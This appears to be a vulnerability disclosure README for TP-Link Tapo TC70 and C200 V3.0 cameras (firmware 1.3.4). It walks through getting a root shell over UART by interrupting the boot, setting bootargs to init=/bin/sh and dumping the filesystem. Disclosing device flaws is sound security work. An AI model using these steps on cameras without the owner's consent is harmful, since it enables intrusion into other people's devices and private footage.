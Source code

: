 # TAPO TC70 & C200 Unauthorized root access using UART.
### Product : TPLINK TAPO TC70 V3.0 , TAPO C200 V3.0 wifi cameras
### Firmware version: 1.3.4
### CVE update: CVE ID reserved 

## How to gain the root access
- Solder the UART pins on the camera circuit board to a *UART to USB* cable
- Find the usb port address using the `sudo dmesg` command
- Use the picocom command to start an interactive shell with access to bootlog
- Ex: `sudo picocom /dev/ttyUSBx -b 115200` , (x : {0,1,2..} check dmesg output to
find this)
- When the terminal is ready plugin the camera
- The camera boots twice on the second appearance of the ‘AutoBooting in 1 second’ type `slp` 
- This will grant access to the boot menu
- Change the boot configuration using(add/modify init=/bin/sh to the bootargs env
var): `setenv bootargs console=ttyS1,115200n8 mem=45M@0x0 rmem=19M@0x2d00000
root=/dev/mtdblock6 rootfstype=squashfs spdev=/dev/mtdblock7 noinitrd init=/bin/sh`
- Now reboot using boot command. 
- The camera boots directly to the /bin/sh shell giving root access
- Now you can access the complete file system of the camera and can also dump it using a sd card
